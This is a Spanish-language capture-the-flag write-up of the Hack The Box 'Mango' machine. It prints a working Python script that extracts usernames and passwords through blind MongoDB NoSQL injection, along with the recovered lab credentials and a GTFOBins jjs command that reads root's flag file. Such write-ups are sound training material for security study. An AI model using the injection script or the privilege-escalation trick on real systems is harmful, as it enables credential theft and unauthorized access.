









Mango HTB WriteUp

HTB Mango writeup⌗
Maquina Linux de dificultad media, con un nombre interesante que me recuerda a cierta base de datos. El proceso como siempre será: Escanear –> Punto de entrada inicial –> Usuario –> Root
Análisis inicial⌗
# added to hosts as 10.10.10.171 Mango
$ sudo nmap -sV -sC -sT -O -o nmapinitial Mango
Resultados del análisis inicial con nmap:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-14 12:29 CET
Nmap scan report for Mango (10.10.10.162)
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
| 256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_ 256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after: 2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=2/14%OT=22%CT=1%CU=37707%PV=Y%DS=2%DC=I%G=Y%TM=5E4684E
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)SEQ(SP=1
OS:07%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.00 seconds
Tenemos un servidor OpenSSH y un servidor Apache ejecutándose en los puertos 80 y 443.
La web en el puerto 443 es sospechosamente parecida a un conocido motor de búsqueda, vamos a intentar realizar algunas búsquedas interesantes:

Tras darle unas vueltas, parece que no hay nada fácilmente explotable, echémosle un ojo al enlace a la página de analíticas que aparece en la parte superior derecha.
Llegamos a una página con una especie de Excel online. Tampoco parece que haya nada explotable por aquí :(

Punto de entrada inicial⌗
Revisando los resultados de nmap, nos fijamos en algo que habíamos pasado por alto, en el puerto 443 port tenemos un certificado con un “Common name” que todavia no hemos utilizado: staging-order.mango.htb. Lo añadimos al fichero /etc/hosts:

Navegando a staging-order.mango.htb obtenemos un formulario para iniciar sesión:

Con la pista del nombre, y probando alguna inyección NoSQL, llegamos a la conclusión de que la página esta ejecutando MongoDB y es vulnerable a NoSQLi. Usaremos este script para automatizar la extracción de datos mediante regex, tras modificarlo un poco y esperar obtenemos dos usuarios y sus respectivas contraseñas:
import requests
import string
url = "http://staging-order.mango.htb"
headers = {"Host": "staging-order.mango.htb", "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
print("Extracting password of "+username)
params = {"username":username, "password[$regex]":"", "login": "login"}
password = "^"
while True:
for c in possible_chars:
params["password[$regex]"] = password + c + ".*"
pr = requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
password += c
break
if c == possible_chars[-1]:
print("Found password "+password[1:].replace("\\", "")+" for username "+username)
return password[1:].replace("\\", "")
def get_usernames():
usernames = []
params = {"username[$regex]":"", "password[$regex]":".*", "login": "login"}
for c in possible_chars:
username = "^" + c
params["username[$regex]"] = username + ".*"
pr = requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False)
if int(pr.status_code) == 302:
print("Found username starting with "+c)
while True:
for c2 in possible_chars:
params["username[$regex]"] = username + c2 + ".*"
if int(requests.post(url, data=params, headers=headers, verify=False, allow_redirects=False).status_code) == 302:
username += c2
print(username)
break
if c2 == possible_chars[-1]:
print("Found username: "+username[1:])
usernames.append(username[1:])
break
return usernames
for u in get_usernames():
get_password(u)
Found username: mango
Extracting password of admin
Found password t9KcS3>!0B#2 for username admin
Extracting password of mango
Found password h3mXK8RhU~f{]f5H for username mango
Intentando iniciar sesión por SSH con el usuario admin nos da error, pero probando el usuario mango conseguimos nuestra primera shell en la máquina.
 
Usuario⌗
Revisando la carpeta /home/mango vemos que esta vacía, lo que quiere decir que la flag seguramente esté en la carpeta del usuario admin. Sabemos la contraseña del usuario admin, probemos a cambiar de usuario directamente con el comando su:
mango@mango:~$ su admin
Password:
$ /bin/bash
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.
admin@mango:/home/mango$

Root⌗
Tenemos acceso como usuario, vamos a intentar conseguir root.
Enumeración⌗
Lo primero que debemos hacer para saber cómo continuar la elevación es enumerar los binarios potencialmente explotables en el sistema. Para hacer esto, utilizaremos la herramienta htbenum. Al ver los resultados del escáner, tenemos dos binarios interesantes: jjs y run-mailcamp.

Ambos tienen una entrada en GTFOBins, por lo que intentaremos leer el archivo /root/root.txt. Primero intentaremos obtener el archivo raíz explotando jjs. Según GTFOBins, si ejecutamos este script, podemos leer el archivo que indicamos.
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("/root/root.txt"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
Lo ejecutamos en la máquina de mango y … ¡voilá! Tenemos la flag de root.
